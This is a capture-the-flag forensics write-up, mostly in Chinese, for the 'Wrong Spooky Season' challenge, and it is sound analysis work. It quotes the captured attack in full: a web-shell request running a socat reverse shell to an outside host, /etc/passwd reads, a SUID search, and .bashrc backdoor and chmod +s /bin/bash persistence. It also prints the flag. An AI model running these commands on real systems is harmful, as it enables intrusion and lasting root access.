

# Wrong Spooky Season

:::note CHALLENGE DESCRIPTION

VERY EASY

I told them it was too soon and in the wrong season to deploy such a website, but they assured me that theming it properly would be enough to stop the ghosts from haunting us. I was wrong.&quot; Now there is an internal breach in the `Spooky Network` and you need to find out what happened. Analyze the the network traffic and find how the scary ghosts got in and what they did.

:::

题目提供了一个流量包文件



在 `TCP Stream 13` 中得到

```plaintext
GET /e4d1c32a56ca15b3.jsp?cmd=socat%20TCP:192.168.1.180:1337%20EXEC:bash HTTP/1.1
Host: 192.168.1.166:8080
User-Agent: python-requests/2.28.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

URL Decode得到

```plaintext
socat TCP:192.168.1.180:1337 EXEC:bash
```

看起来就是将bash绑定到了`1337`端口，看下一个会话

```plaintext
id
uid=0(root) gid=0(root) groups=0(root)
groups
root
uname -r
5.18.0-kali7-amd64
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
messagebus:x:101:102::/nonexistent:/usr/sbin/nologin
find / -perm -u=s -type f 2>/dev/null
/bin/su
/bin/umount
/bin/mount
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh
echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null && chmod +s /bin/bash
ls -lha 
total 20K
drwxr-xr-x 1 root root 4.0K Oct 10 17:28 .
drwxr-xr-x 1 root root 4.0K Oct 10 17:28 ..
-rwxrwx--- 1 root root 1.8K Oct  8 00:04 pom.xml
drwxr-xr-x 3 root root 4.0K Oct 10 17:27 src
drwxr-xr-x 1 root root 4.0K Oct 10 17:28 target
```

在其中找到

```plaintext
==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS

Reverse

SFRCe2o0djRfNXByMW5nX2p1c3RfYjNjNG0zX2o0djRfc3AwMGt5ISF9Cg==

Base64 Decode

HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}
```

```plaintext title="Flag"
HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}
```
